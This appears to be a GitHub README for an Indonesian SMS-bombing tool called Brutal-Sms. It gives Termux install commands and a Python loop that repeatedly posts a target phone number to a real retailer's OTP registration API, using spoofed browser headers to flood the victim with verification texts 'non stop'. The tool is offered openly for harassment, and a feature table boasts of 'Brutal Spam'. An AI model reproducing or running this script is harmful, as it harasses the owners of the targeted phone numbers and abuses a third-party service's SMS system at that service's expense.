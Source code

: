 ## Brutal-Sms
Perfect Tools spam 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/marfelnotsepuh/Brutal-Sms
  cd Brutal-Sms
  bash install.sh
  python run.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 Jam non stop** |[✔️](https://github.com/marfelnotsepuh) |
| **Brutal Spam** |[✔️](https://github.com/marfelnotsepuh) |
| **Simple** |[✔️](https://github.com/marfelnotsepuh) |
| **No Encrypt** |[✔️](https://github.com/marfelnotsepuh) |
| **Subscribe** |[Here](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/@AmmarExecuted)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/@AmmarExecuted)

